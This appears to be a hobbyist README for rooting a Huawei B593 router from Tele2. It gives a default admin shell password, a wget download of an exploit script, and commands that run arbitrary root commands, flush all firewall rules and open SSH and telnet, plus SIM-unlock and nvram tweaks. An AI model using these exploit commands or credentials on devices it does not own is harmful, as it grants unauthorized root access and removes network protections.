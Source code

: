 # Huawei 593 - Tele2

### For sim unlock:

    http://huaweicodecalculator.com/credits - yup, it actually works fine for this router :)

### Default Shell Login For This Router:

login: admin
pass: HW4GCPE


### Download B593cmd.pl:

   Credits goes to: Jari Turkia 
   wget http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl
   chmod +x B593cmd.pl

### Execute commands with

   ./B593cmd.pl <ip> <admin_pw> "command_to_execute"

### Allow incoming connections

   ./B593cmd.pl 192.168.1.3 odemnn  "iptables -I INPUT -i br0 -j ACCEPT"

### SSH:

    ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc admin@192.168.1.3 -s /bin/sh

### Clear all iptables

    ./B593cmd.pl 192.168.1.1 admin "iptables -nL INPUT"
    ./B593cmd.pl 192.168.1.3 odemnn "iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -F;iptables -X

### Login
 
    telnet 192.168.1.3


### ENable serial console

Enable CFE and normal boot (B593.trx) serial console

    nvram set console_disable=0

Enable boot_wait with 10 second delay for more recovery options

    nvram set boot_wait=on
    nvram set wait_time=10

Boot regular OS (B593.trx). Use boot_part=1 for recovery OS (B593-small.trx)
    
    nvram set boot_part=0

Write changes made to NVRAM
 
    nvram commit

### Backup 

![Screenshot](pics/cbackup-script_tele2.gif)

Run script in scripts/backup-script.sh for backup as above

References

<br>http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl
<br>https://blog.hqcodeshop.fi/archives/130-Exploit-Running-commands-on-B593-shell.html
<br>http://blog.asiantuntijakaveri.fi/search/label/b593
<br>http://blog.asiantuntijakaveri.fi/2013/08/gaining-root-shell-on-huawei-b593-4g.html
<br>http://blog.asiantuntijakaveri.fi/2014/08/persistent-customizations-to-huawei.html
<br>https://dlcdnets.asus.com/pub/ASUS/wireless/RT-N53/FW_RT_N53_30043763754.zip

### CONTACT 

If you have problems, questions, ideas or suggestions please contact me by posting to wuseman@nr1.nu

### WEB SITE

Visit my websites and profiles for the latest info and updated tools

https://github.com/wuseman/ && https://nr1.nu && https://stackoverflow.com/users/9887151/wuseman

### END!

